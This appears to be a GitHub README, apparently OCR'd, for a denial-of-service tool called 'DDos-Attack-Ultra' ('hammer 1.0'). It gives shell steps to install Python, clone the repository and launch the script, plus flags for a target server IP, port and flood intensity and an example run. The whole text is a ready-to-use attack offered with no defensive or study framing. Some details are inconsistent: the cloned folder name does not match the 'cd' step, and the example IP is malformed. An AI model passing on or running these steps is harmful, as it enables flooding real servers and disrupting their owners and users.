            □□□□■□□□□
           □□□■■■□□□
           □□■■■■■□□
           □■■■■■■■□
           □□■■■■■□□
           □□□■■■□□□ 
           □□□□■□□□□  
$ apt update
$ apt upgrade
$ apt install python -y
$ apt install python2 -y
$ pkg install git
$ git clone https://github.com/Grisp84/DDos-Attack.git
$ cd DDos-Attack-Ultra
$ python DDos-Attack-Ultra.py

Use python DDos-Attack-Ultra.py [-s] [-p] [-t]
     →  -h : help
     →  -s : server ip
     →  -p : port default 80
     →  -t : turbo default 135
Example: python DDos-Attack-Ultra.py -s172.34.32 -p80 -t135
Modification:hammer 1.0 by:grisp84^_^
